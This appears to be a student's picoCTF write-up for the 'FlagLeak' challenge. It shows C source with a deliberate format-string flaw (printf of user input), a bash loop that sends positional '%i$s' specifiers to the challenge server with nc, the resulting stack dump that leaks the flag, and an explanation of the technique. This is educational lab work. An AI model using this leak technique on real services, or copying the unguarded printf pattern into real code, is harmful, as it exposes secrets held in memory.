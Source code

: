 # FlagLeak
flag : picoCTF{L34k1ng_Fl4g_0ff_St4ck_95f60617}

## My Approach :

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```

Asking ChatGPT to explain the code, I realised that there is a format string vulnerability. There is no "%s".          
I absolutely despise unnecessarily having to read long codes, so lemme just zoom in on the vulnerability.

![image](https://github.com/user-attachments/assets/91ac11b4-18b6-4037-adb6-f2f05bb3aaa5)          

A big hint is that the function is called "vuln". It also calls to readflag, so well, it reads the flag. Then it accepts an entry from the user, and prints it without a format specifier (VULNERABILITY!!!!!)

So, I used :
```
for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 64582; done
```
to traverse thru the memory stack at various index positions until I found my flag.
- This loop tries %1$s, %2$s, and so on, as input to the program.
- When it reaches the index where the flag is stored, printf interprets it as a string and prints the flag.




## Terminal Output : 
```
avantikasanyal@LAPTOP-CFRE3HMA:~$ for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 64582; done
Tell me a story and then I'll tell you one >> Here's a story -
%0$s
Tell me a story and then I'll tell you one >> Here's a story -
%1$s
Tell me a story and then I'll tell you one >> Here's a story -
[�
Tell me a story and then I'll tell you one >> Here's a story -
�ú,
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -
/
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -
�.
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
�������
Tell me a story and then I'll tell you one >> Here's a story -
�(��g���g���g���g���g���g���g���h���
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -
setresgid
Tell me a story and then I'll tell you one >> Here's a story -
����
Tell me a story and then I'll tell you one >> Here's a story -
��e�

Tell me a story and then I'll tell you one >> Here's a story -
setresgid
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
CTF{L34k1ng_Fl4g_0ff_St4ck_95f60617}
Tell me a story and then I'll tell you one >> Here's a story -
�J�
Tell me a story and then I'll tell you one >> Here's a story -
ii
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -
ii
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
$�
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
�(��g���g���g���g���g���g���g���h���
Tell me a story and then I'll tell you one >> Here's a story -
����������؉ǀ�u��^H�C�p��s��u��C
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
���9��p����m�������1����
Tell me a story and then I'll tell you one >> Here's a story -
������
Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -
��D���C�0�'�S)�@-/��q)�M$��y)�pV)��Э'�1/�
Tell me a story and then I'll tell you one >> Here's a story -
```
## What did I learn?

### 1. String vulnerabilities
- The program uses scanf("%127s", story) to accept your input into the story variable.
- Then it directly passes story to printf(story).
- Normally, printf expects format specifiers like %s or %d in its argument to interpret data correctly.
- By providing your own format specifiers (e.g., %x, %s), you gain control over what printf does.
  
### 2. How did I make use of this?

- When printf processes format specifiers, it accesses values from the memory stack.
- You can use %p to print raw pointers or %s to print strings at specific memory addresses.
- %i$s allows you to specify an index (i) to directly access a specific location on the stack and interpret it as a string.

  ### 3. Why %i$s Works.
%i$s is a positional format specifier in printf. It accesses the ith argument on the stack as a string.
By systematically testing indices, you find the one that corresponds to the memory location of the flag.

## Errors :
  None really, very simply asked ChatGPT to guide me thru the code for my terminal and to highlight where there might be a weak link in my source code.
